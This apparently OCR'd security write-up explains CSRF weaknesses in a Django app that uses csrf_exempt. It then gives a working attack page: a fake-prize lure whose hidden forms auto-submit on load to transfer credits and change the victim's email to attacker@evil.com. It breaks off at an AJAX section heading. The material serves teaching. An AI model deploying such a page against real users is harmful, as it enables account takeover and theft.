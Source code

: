 ### Vulnerability Explanation
1. **CSRF Protection Disabled**: `@csrf_exempt` decorator removes Django's CSRF protection
2. **No Additional Verification**: Actions execute immediately without confirmation
3. **State-Changing Operations**: Both endpoints modify user data
4. **No Anti-CSRF Tokens**: Forms lack CSRF tokens

## Exploitation Steps

### 1. Basic CSRF Attack Page

Create a malicious HTML page that victims would visit:

```html
<!DOCTYPE html>
<html>
<head>
    <title>You Won a Prize!</title>
</head>
<body>
    <h1>Congratulations! You've won €1000!</h1>
    <p>Click below to claim your prize...</p>
    
    <!-- Hidden CSRF attack forms -->
    
    <!-- Transfer credits silently -->
    <form id="csrf-transfer" action="http://localhost:8000/transfer-credits/" method="POST">
        <input type="hidden" name="recipient" value="attacker">
        <input type="hidden" name="amount" value="999.99">
    </form>
    
    <!-- Change email silently -->
    <form id="csrf-email" action="http://localhost:8000/update-email/" method="POST">
        <input type="hidden" name="email" value="attacker@evil.com">
    </form>
    
    <script>
        // Auto-submit forms when page loads
        window.onload = function() {
            document.getElementById('csrf-transfer').submit();
            // Delay second attack to avoid suspicion
            setTimeout(function() {
                document.getElementById('csrf-email').submit();
            }, 1000);
        }
    </script>
</body>
</html>
```

### 2. Advanced CSRF with AJAX

